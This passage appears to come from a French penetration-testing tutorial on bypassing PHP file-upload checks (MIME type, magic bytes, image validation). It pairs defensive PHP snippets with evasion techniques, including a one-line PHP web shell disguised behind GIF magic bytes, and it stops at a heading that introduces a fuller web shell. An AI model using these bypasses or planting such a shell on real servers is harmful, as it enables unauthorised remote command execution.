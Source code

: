 ##### 2. Restrictions basées sur le type MIME

**Restriction** : L'application vérifie le Content-Type dans l'en-tête de la requête.
```php
// Exemple de vérification côté serveur
$allowed_types = array('image/jpeg', 'image/png', 'image/gif');
if (!in_array($_FILES['upload']['type'], $allowed_types)) {
  die("Type MIME non autorisé");
}
```

**Contournements** :
- Modification de l'en-tête Content-Type dans la requête
- Utilisation d'un proxy comme Burp Suite pour changer `application/x-php` en `image/jpeg`

##### 3. Vérification du contenu du fichier (magic bytes)

**Restriction** : L'application vérifie les premiers octets du fichier pour déterminer son type réel.
```php
// Exemple de vérification des magic bytes
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$file_type = finfo_file($finfo, $_FILES['upload']['tmp_name']);
if (!in_array($file_type, $allowed_types)) {
  die("Type de fichier non autorisé");
}
```

**Contournements** :
- Ajout des magic bytes d'une image au début du fichier PHP
- Exemple pour JPEG : `FF D8 FF E0` + code PHP
```
GIF89a;
<?php system($_GET['cmd']); ?>
```

##### 4. Validation de l'intégrité de l'image

**Restriction** : L'application tente de traiter l'image pour vérifier qu'elle est valide.
```php
// Exemple de vérification par traitement
$image = imagecreatefromjpeg($_FILES['upload']['tmp_name']);
if (!$image) {
  die("Image invalide");
}
imagedestroy($image);
```

**Contournements** :
- Création d'une image valide contenant du code PHP dans les métadonnées
- Exploitation de vulnérabilités dans les bibliothèques de traitement d'images

#### Création d'une webshell polyvalente

Voici un exemple de webshell PHP simple mais efficace :
